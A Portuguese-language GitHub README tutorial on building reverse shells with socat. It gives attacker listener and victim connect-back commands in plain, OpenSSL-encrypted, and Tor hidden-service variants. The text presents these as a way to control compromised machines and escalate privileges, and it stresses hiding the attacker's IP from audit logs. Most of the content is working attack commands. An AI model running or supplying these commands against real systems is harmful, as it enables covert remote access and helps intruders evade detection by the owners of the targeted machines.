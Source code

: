 <p align="center">

<h1 align="center"> Shell reverso interativo e criptografado 
<h1 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Debian.io" />

<img src="https://img.shields.io/badge/Tor-7D4698?style=for-the-badge&logo=Tor-Browser&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer que o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverso

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta e assim permite que o atacante abra uma porta de escuta em seu servidor para receber conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Podemos criar [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) de várias formas, nesse post utilizarei o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

## Shell reverso criptografado

Basta usar o openssl para criar as chaves.

Servidor:
```shell
# Atacante
PORT="1111"
openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"
socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```
Cliente:
```shell
# Vítima
HOST=localhost
PORT=1111
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid  
 ```
  
## Shell reverso utilizando a rede tor

Em sistemas robustos são guardados vários logs, inclusive de conexões. Assim o endereço de ip da atacante seria facimente descoberto em uma auditoria. Mas utilizando a rede tor o atacante consegue tornar seu endereço de ip desconhecido, ele deve ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa do proxy tor para redirecionar o servidor socat para rede tor. Para isso, o atacante precisa adicionar as seguintes linhas ao arquivo ao final do arquivo <strong>/etc/tor/torrc</strong>:

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```
Desta forma, todas as requisições que vierem da rede tor pela porta 1111 serão redirecionadas para localhost:1111.

Agora reinicie o tor:

```
systemctl restart tor
```

Para descobrir qual é o domínio do atacante na rede tor, digite:

```bash
cat /var/lib/tor/service/hidden/hostname

# Aparecerá algo algo assim, exemplo:
domínio-do-atacante.onion
```

O atacante deve executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=domínio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor usando o openssl como foi mostrado acima. Mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Podemos dizer que é extremamente difícil identificar o atacante.
## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do Hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).
